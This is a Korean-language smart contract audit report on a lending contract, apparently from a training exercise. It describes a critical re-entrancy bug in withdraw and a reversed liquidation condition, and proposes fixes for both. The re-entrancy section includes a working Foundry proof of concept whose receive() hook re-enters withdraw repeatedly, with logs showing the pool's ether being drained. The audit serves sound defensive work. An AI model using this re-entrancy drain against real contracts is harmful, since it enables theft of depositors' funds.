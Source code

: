 # withdraw re-entrancy를 통한 담보 인출

## 설명

<aside>

### **키워드 : Vulnerability - Re-entrancy**

### **심각도 : Critical**

memory 키워드 사용으로 인해 shallow copy된 객체가 생성되는데, 객체는 지역변수에 불과한데 여기에 변화를 적용시킨 뒤 실제 변수에 적용하지 않은채 call을 하기 때문에 re-entrancy를 활용하여 lending service에 존재하는 모든 이더를 탈취할 수 있다.

</aside>

```solidity
VaultInfo memory tempVault = vaults[msg.sender];
require(
    tempVault.collateralETH - availableWithdraw >= _amount,
    "ERROR"
);
tempVault.collateralETH -= _amount;
(bool success, ) = payable(msg.sender).call{value: _amount}("");
vaults[msg.sender] = tempVault;
```

memory 키워드를 사용하여 생성한 `tempVault` 는 얕은 복사로 생성된 지역변수 객체인데 로직에서는 `tempVault.collateralETH` 에 대해 `_amount` 를 빼는 연산을 진행한 뒤 call을 통해 이더를 전달한다.

그리고 그 이후에야(call이 끝난 뒤) `vaults[msg.sender]` 를 변화한 값으로 덮어쓰게 된다.

따라서 re-entrancy로 접근한다면 또 다시 이전(변화 전) 객체를 복사하여 동일한 연산을 진행하고 이는 무한정으로 `_amount` 를 전송할 수 있는 취약점이 된다(정확히는 Lending service에 존재하는 만큼).

## PoC

```solidity
function testPOC() external {
        supplyUSDCDepositUser1();
        supplyEtherDepositUser2();
        supplyEtherDepositUser2();
        supplyEtherDepositUser2();
        supplyEtherDepositUser2();
        supplyEtherDepositUser2();
        supplyEtherDepositUser2();
        supplyEtherDepositUser2();
        //
        vm.deal(address(this), 100000000 ether);
        lending.deposit{value: 100000000 ether}(address(0x00), 100000000 ether);

        console.log("before usdc", usdc.balanceOf(address(this)));
        (bool success, ) = address(lending).call(
            abi.encodeWithSelector(
                DreamAcademyLending.borrow.selector,
                address(usdc),
                50000000 ether
            )
        );
        console.log("after usdc", usdc.balanceOf(address(this)));
        count = 7 * 9;

        usdc.approve(address(lending), type(uint256).max);
        lending.withdraw(address(usdc), 11111111 ether);
        console.log(
            "Attack Result(usdc, ether), Lending's balance : ",
            usdc.balanceOf(address(this)),
            address(this).balance,
            address(lending).balance
        );
    }

    receive() external payable {
        while (count > 0) {
            --count;
            console.log("balance:", address(this).balance);
            lending.withdraw(address(usdc), 11111111 ether);
        }
    }
```

```solidity
Running 1 test for test/LendingTest.t.sol:Testx
[PASS] testPOC() (gas: 1436764)
Logs:
  before usdc 0
  after usdc 50000000000000000000000000
  balance: 11111111000000000000000000
  balance: 22222222000000000000000000
  balance: 33333333000000000000000000
...
  balance: 677777771000000000000000000
  balance: 688888882000000000000000000
  balance: 699999993000000000000000000
  Attack Result(usdc, ether), Lending's balance :  50000000000000000000000000 711111104000000000000000000 88888896000000000000000001
```

위의 PoC는 `100000000 ether` 를 예치한 뒤 최대(50%)로 대출을 한다.

```solidity
(bool success, ) = address(lending).call(
            abi.encodeWithSelector(
                DreamAcademyLending.borrow.selector,
                address(usdc),
                50000000 ether
            )
        );
----------------------
  before usdc 0
  after usdc 50000000000000000000000000
```

이후 re-entrancy할 횟수를 지정한다. 이는 Lending service에 존재하는 모든 이더를 탈취한 뒤 integer underflow가 발생하면 모두 rollback될 것이기에 `supplyEtherDepositUser2` 에서 예치한 금액과 횟수를 토대로 임의로 설정한 값이다. 횟수와 값을 바꾸어 최대 랜딩 서비스에 존재하는 모든 이더를 탈취할 수 있다.

`lending.withdraw(address(usdc), 11111111 ether);`

를 실행하면

```solidity
VaultInfo memory tempVault = vaults[msg.sender];
require(
    tempVault.collateralETH - availableWithdraw >= _amount,
    "ERROR"
);
tempVault.collateralETH -= _amount;
(bool success, ) = payable(msg.sender).call{value: _amount}("");
vaults[msg.sender] = tempVault;
```

코드에서 `tempVault.collateralETH` 값이 re-entrancy 하더라도 변하지 않고 고정이므로 아무런 조건 없이 re-entrancy를 반복하며 `_amount` 만큼 `msg.sender` 에게 전송하는 취약점이 발현된다.

```solidity
  Attack Result(usdc, ether), Lending's balance :  50000000000000000000000000 711111104000000000000000000 88888896000000000000000001
```

결과적으로 대출로 얻은 USDC 50000000 ether와 Re-entrancy로 빼낸 돈(내 예치금(담보) + 다른 유저들이 예치한 금액)을 얻게 된 것을 확인할 수 있다.

## 파급력

Re-entrancy를 통해 대출상태임에도 담보를 모두 빼낼 수 있으며, 심지어 Lending 서비스 전체의 이더를 탈취할 수 있는 취약점이기에 위험도는 매우 위험하다고 볼 수 있다.

또한 키워드를 잘못 사용하여 발생한 문제점이기에 취약점을 트리거함에 있어서도 별다른 특이사항이나 어려움이 존재하지 않는다.

## 해결 방법

```solidity
VaultInfo memory tempVault = vaults[msg.sender];
require(
    tempVault.collateralETH - availableWithdraw >= _amount,
    "ERROR"
);
tempVault.collateralETH -= _amount;
vaults[msg.sender] = tempVault;
(bool success, ) = payable(msg.sender).call{value: _amount}("");
```

call하기 전에 변화한 객체를 적용시킨 뒤 call을 하여 *`Checks-*Effects-Interactions` 패턴을 활용하여 re-entrancy를 통한 전체 ether 출금은 방지할 수 있다.

하지만 이 경우에도 대출금이 존재하고 대출 한계치에 도달하여 담보를 인출할 수 없는 상황임에도 불구하고 인출을 허용한다는 문제점이 존재한다.

따라서 인출하고자 하는 금액을 빼어도 Liquidation Threshold 비율을 만족하는지 체크하며 인출하도록 검사구문의 식을 수정해야 할 것이다.

---

# 2.liquidate 조건 설정 실수

## 설명

<aside>

### **키워드 : Bug - Condition mistake**

### **심각도 : High**

부등호를 정반대로 작성하는 실수가 있어서 이더의 가격이 오를 때 청산이 되는 상황이 벌어진다.

</aside>

```solidity
require(price > (oracle.getPrice(address(0x0)) * 75) / 100);
```

이더의 가치가 하락할 경우에 청산 기능을 통해 usdc로 변환해야 하는데, 해당 부등식은 이더리움의 가격이 오를 경우 청산을 해버리게 된다. 즉, 부등식이 반대 방향으로 되어 있어 이러한 상황이 연출된 것이다.

또한 이더리움의 가격이 오르지 않더라도 일반적으로 LT를 넘기기 때문에 누구든 청산을 할 수 있다,

또한 계산식 자체에도 문제가 있는데, 담보의 가치에서 LT를 곱하는 것이 아니라 1 ETH의 현재 가격을 오라클에서 가져와 연산하기에 전혀 엉뚱한 계산이 나오게 된다.

## 파급력

청산되면 안되는 계정(자산)들이 강제로 청산될 수 있다. 이는 Lending 서비스의 근간을 해처 핵심 기능을 원활하게 동작하지 못하게 막으므로 위험도를 높다고 판단하였다.

## 해결 방법

```solidity
require(price <= vaults[msg.sender]*(oracle.getPrice(address(0x0)) * 75) / 100);
```

등호의 방향을 원래대로 바꿔준다. 그리고 담보의 가치를 측정할 수 있도록 담보의 수량을 곱하는 연산을 더해주어야 한다.
